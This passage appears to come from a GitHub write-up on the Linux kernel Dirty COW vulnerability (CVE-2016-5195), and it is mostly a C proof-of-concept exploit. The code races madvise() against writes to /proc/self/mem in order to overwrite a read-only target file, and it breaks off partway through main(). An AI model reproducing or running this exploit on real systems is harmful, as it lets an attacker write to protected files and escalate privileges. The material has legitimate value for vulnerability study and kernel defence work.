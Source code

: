 # CVE-2016-5195	Dirtycow

*dirtycow*	*Copy on write*	*kernel CVE*	*race*



> the experinment and analysis is based on kernel 4.8

## PoC

```c
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <unistd.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

#define MAXTRY 1000
void *map;
char* target_file;
char* target_str;

 
void *madviseThread(void *arg){
  while(1){
    if(madvise(map, 0x1000, MADV_DONTNEED)) puts("[-] madvise() failed");
  }
}

void *procselfmemThread(void *arg){
  int f = open("/proc/self/mem", O_RDWR);
  int len = strlen(target_str);
  while(1){
    lseek(f, (unsigned long)map, SEEK_SET);
    if(write(f, target_str, len) < len) puts("[-] write failed");
  }
}

void* wait4race(void* arg){
  char buf[50];
  for(int i=0;i<MAXTRY;i++){
    int f = open(target_file, O_RDONLY);
    read(f, buf, 50);
    if(!memcmp(buf, target_str, strlen(target_str))){
      puts("[*] race detected");
      break;
    }
    close(f);
    sleep(1);
  }
}
 
 
int main(int argc,char *argv[]){
  target_file = argv[1];
  target_str = argv[2];

  int f;
  struct stat st;
  f = open(target_file, O_RDONLY);
  fstat(f, &st);
```